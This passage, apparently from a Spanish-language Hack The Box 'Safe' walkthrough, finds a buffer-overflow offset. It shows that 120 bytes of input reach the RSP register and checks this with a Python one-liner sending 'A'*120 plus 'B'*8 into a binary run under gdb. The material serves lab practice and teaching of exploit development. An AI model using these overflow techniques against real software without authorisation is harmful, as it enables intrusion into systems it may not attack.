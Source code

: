 ![](https://raw.githubusercontent.com/MateoNitro550/MateoNitro550.github.io/main/assets/2021-12-27-Safe-Hack-The-Box/14.png){:class="blog-image" onclick="expandImage(this)"} 

Sabemos ahora que, después de ingresar _120 bytes_, empezaremos a sobrescribir el registro `RSP`, y esto lo podemos comprobar de manera sencilla, intentando ingresar en este registro, _8 letras B_, por ejemplo.

```bash
python -c 'print "A"*120 + "B"*8'
```

```
gdb myapp

run
```
![](https://raw.githubusercontent.com/MateoNitro550/MateoNitro550.github.io/main/assets/2021-12-27-Safe-Hack-The-Box/15.png){:class="blog-image" onclick="expandImage(this)"} 
